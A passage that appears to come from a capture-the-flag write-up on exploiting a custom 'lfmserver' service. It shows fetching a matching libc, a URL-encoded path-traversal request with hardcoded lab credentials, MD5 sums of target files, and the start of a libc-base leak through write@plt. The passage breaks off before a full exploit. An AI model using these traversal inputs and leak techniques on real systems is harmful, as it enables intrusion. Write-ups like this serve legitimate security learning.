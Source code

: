 ```bash
root@silence:~# libc-database/download libc6_2.28-0ubuntu1_amd64
Getting libc6_2.28-0ubuntu1_amd64
  -> Location: http://old-releases.ubuntu.com/ubuntu/pool/main/g/glibc//libc6_2.28-0ubuntu1_amd64.deb
  -> Downloading package
  -> Extracting package
  -> Package saved to libs/libc6_2.28-0ubuntu1_amd64

root@silence:~# cp libc-database/libs/libc6_2.28-0ubuntu1_amd64/libc.so.6 .
```

#### URL-encoding all characters
In order to send the `payload` successfully, we have to url-encode **all characters**. Default python url-encoding does only encode certain key-characters. Luckily after a bit of searching, I found a [script on GitHub](https://gist.github.com/Paradoxis/6336c2eaea20a591dd36bb1f5e227da2#file-url_encode-py) that encodes all characters.

#### MD5-sum of file
Another prerequisite for our exploit, is that we know the MD5-sum of the file we are accessing. There are multiple possible files we can choose from. Initially I decided to use `/dev/null`, as it will definitly has the same MD5-sum on my machine as on the target. However, because of problems that occured in later exploit-development I changed to use `/proc/sys/kernel/randomize_va_space`.

```bash
root@silence:~# md5sum /dev/null
d41d8cd98f00b204e9800998ecf8427e  /dev/null

root@silence:~# md5sum /proc/sys/kernel/randomize_va_space
26ab0db90d72e28ad0ba1e22ee510510  /proc/sys/kernel/randomize_va_space
```

```python
Request:
CHECK %2f%2e%2e%2f%2e%2e%2f%2e%2e/dev/null LFM
User=lfm_user
Password=!gby0l0r0ck$$!

d41d8cd98f00b204e9800998ecf8427e
```
```python
Response:
LFM 200 OK
Size: 32
```

#### Leaking libc-base
We can use write to leak any libc function and calculate the offset.
```bash
root@silence:~# objdump -D lfmserver -M intel | grep "write"
0000000000402420 <write@plt>:
  4025d7:       e8 44 fe ff ff          call   402420 <write@plt>
```
```c
root@silence:~# man 2 write
WRITE(2)                                     Linux Programmer's Manual                                     WRITE(2)

NAME
       write - write to a file descriptor

SYNOPSIS
       #include <unistd.h>

       ssize_t write(int fd, const void *buf, size_t count);
[...]
```